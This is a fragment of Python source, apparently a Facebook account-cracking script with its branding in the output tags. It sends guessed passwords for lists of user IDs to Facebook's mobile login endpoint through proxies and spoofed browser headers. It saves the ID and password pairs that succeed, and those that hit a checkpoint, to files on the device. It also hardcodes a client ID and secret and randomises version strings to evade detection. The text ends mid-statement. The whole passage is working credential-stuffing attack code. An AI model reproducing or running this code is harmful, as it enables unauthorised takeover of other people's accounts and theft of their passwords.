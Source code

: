 			session.headers.update({"Host":"p.facebook.com", "content-type":"application/x-www-form-urlencoded","upgrade-insecure-requests": "1", "user-agent": ua, "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "x-requested-with": "com.mi.globalbrowser.mini", "sec-fetch-site":  "none", "sec-fetch-mode": "navigate", "sec-fetch-user": "?1", "sec-fetch-dest": "document", "accept-encoding": "gzip, deflate", "accept-language":  "en-US;q=0.8,en;q=0.7"})
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="105", "Google Chrome";v="105"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head,proxies=proxs)
			AXI=session.cookies.get_dict().keys()
			if "c_user" in AXI:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				
				print('\033[1;92m[LIMON-OK] '+ids+' | '+pas+'\033[1;32m')
				open('/sdcard/LIMON-OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in AXI:
				if 'y' in pcp:
					
					print('\33[1;31m[R1F4T-CP] '+ids+' | '+pas+'\33[0;97m')
					open('/sdcard/R1F4T-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
client_id = '6628568379'
client_secrets = 'c1e620fa708a1d5696fb991c1bde5662'
version = str(random.randrange(8,15))
osv = str(random.randrange(1,9))
abv = ['A','B','C']
                
if '8' in version:
    ipsw = '12'+random.choice(abv)+str(random.randint(11,99))
elif '9' in version:
    ipsw = '13'+random.choice(abv)+str(random.randint(11,99))
elif '10' in version:
    ipsw = '14'+random.choice(abv)+str(random.randint(11,99))
elif '11' in version:
    ipsw = '15'+random.choice(abv)+str(random.randint(11,99))
elif '12' in version:
    ipsw = '16'+random.choice(abv)+str(random.randint(11,99))
elif '13' in version:
    ipsw = '17'+random.choice(abv)+str(random.randint(11,99))
elif '14' in version:
    ipsw = '18'+random.choice(abv)+str(random.randint(11,99))
elif '15' in version: